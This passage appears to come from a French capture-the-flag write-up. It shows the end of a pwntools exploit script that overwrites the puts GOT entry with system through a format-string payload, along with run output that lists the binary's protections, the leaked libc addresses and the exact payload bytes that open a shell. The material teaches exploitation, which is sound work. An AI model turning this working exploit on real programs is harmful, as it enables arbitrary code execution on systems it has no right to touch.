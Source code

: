 ```python
p.sendline(b"1")                                                                                                       
p.readuntil(b"Enter first number:")                                                                                    
p.sendline(b"1")                                                                                                       
p.readuntil("Enter second number:")                                                                                    
                                                                                                                       
# pwntools génère la chaine de format à utiliser                                                                       
payload = fmtstr_payload(offset, {elf.got.puts: system_libc_addr}, write_size="short")                                 
info("pushing payload %s (size %d)", repr(payload), len(payload))                                                      
p.sendline(payload)                                                                                                    
                                                                                                                       
p.readuntil(b"Selection:")                                                                                             
# On quitte, ce qui va déclencher un system("\nGoogbye!")                                                              
p.sendline(b"4")                                                                                                       
p.interactive()                                                                                                        
p.close()
```

L'exploitation se fait ici sur le binaire que j'ai recopié sur ma machine :

```shellsession
$ python exploit.py 
[+] Starting local process './my_first': pid 32073
[*] 'my_first'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] puts@got = 0x8049c04
[*] Found format string offset: 8
[*] offset is at dword 8
[*] '/usr/lib/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts = 0xf7c764e0
[*] libc base = 0xf7c00000
[*] system = 0xf7c4d0c0
[*] pushing payload b'%53440c%15$hn%9988c%16$hnaaa\x04\x9c\x04\x08\x06\x9c\x04\x08' (size 36)
[*] Switching to interactive mode
$
```
